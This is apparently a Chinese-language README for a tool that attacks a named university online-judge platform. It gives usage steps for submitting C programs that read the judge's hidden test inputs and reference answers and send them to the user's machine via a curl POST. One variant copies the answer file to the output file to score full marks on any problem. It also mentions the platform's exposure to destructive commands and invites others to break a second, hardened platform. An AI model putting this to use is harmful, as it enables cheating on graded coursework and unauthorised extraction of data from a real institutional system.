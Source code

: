 # XDOJ-爆破者
[English](README.md) | [简体中文](README.zh-CN.md)

这是一个可以用于在 `cvnis.xidian.edu.cn` 这个平台上**骗取测试样例和示例答案**的工具。它由需要上传的程序 `.c` 程序和本地运行的 `.py` 程序两部分组成。在这个平台升级之前，我想这个工具是可以奏效的。

## 使用方法
### 1.运行 ReceiveRequest
双击执行 `ReceiveRequest.exe` 如果看到 Local IP 说明运行正常。   
（这个文件由 `ReceiveRequest.py` 打包编译而来，可能会运行出错。如果出错，则手动执行`ReceiveRequest.py` 文件即可。）
### 2.上传指定文件
**上传之前有两处需要修改**  

0. 确保你自己连接了西电的校园网，而不是其他网络。
1. 将程序中的 `ip[LENGTH]="10.198.67.44:8080";`双引号里面的部分替换成第一步执行的程序中看到的 Local IP 。
2. 将程序中 `int number_of_examples = 3;` 的数字改成你本题的测试用例数目，如果你并不知道有几个测试样例，你只需要把这个数字设置的稍微大一点大约`10`左右即可。



根据需要上传下面四个文件中的一个  
`AlwaysRight.c` 可以在这个平台上任意一道题目中获得满分。很无赖，谨慎使用。  
`GetTestExample.c` 可以获得所有的测试用例，在刚才执行的`ReceiveRequest.exe`中查看。  
`GetAnswer.c` 可以获得所有的测试标准答案，在刚才的`ReceiveRequest.exe`中查看。  
`GetTestExample_complex.c` 可以自定义输入的读入方式。当自动获得测试用例出现混乱时使用。
## 爆破原理
根据OJ系统的工作原理，它将一个在`1.in`文件里的信息作为输入流读入程序，然后将程序的输出流保存到`1.out`文件中，另外在当前目录下还有一个`1.ans`文件里保存了标准答案。当你的程序执行完成后，OJ系统将会比较`1.out`文件和`1.ans`文件里的信息是否一致，从而判断你的程序是否正确。

因此这个程序通过读取`1.in`文件里的信息，并且通过 `curl --data-binary @./1.in http://IP:port/Receiver?message=Input`这样一条 Terminal 命令，将文件中的信息用一个 POST 请求发送到一个指定的服务器，而这个服务器正是我们启动的 `ReceiveRequest.exe` 这个程序。同理我们可以获得`1.ans`文件中的标准答案。

`AlwaysRight.c`程序则是通过直接复制`1.ans`文件到当前目录并且重命名为`1.out`。也就是执行了这样一条命令`cp 1.ans 1.out`，从而就保证了我们的输出文件一定是标准答案。

## 说明与警告

此程序仅用于深入学习了解OJ系统的工作原理，用来获得自己有疑惑的题目的测试用例和答案。或者找出一些答案错误的题目（学长们多年都未能解决的问题）

由于可以操作系统命令行，理论上可以进行一系列破坏性操作。  
**但请一定不要这样做，但请一定不要这样做，但请一定不要这样做**。

## 进一步的工作
此程序仅仅适用于`cvnis.xidian.edu.cn`，并不适用于`http://39.98.193.72/xdoj-ssm/login.jsp`这里，这个平台几乎删除或者重写了所有能调用系统命令行的方法，我尝试过直接写一个能联网的程序，或者手动嵌入部分被删改的代码，但是都没能取得很好的结果。如果有大佬完成了这个平台的爆破请一定让我学习一下！
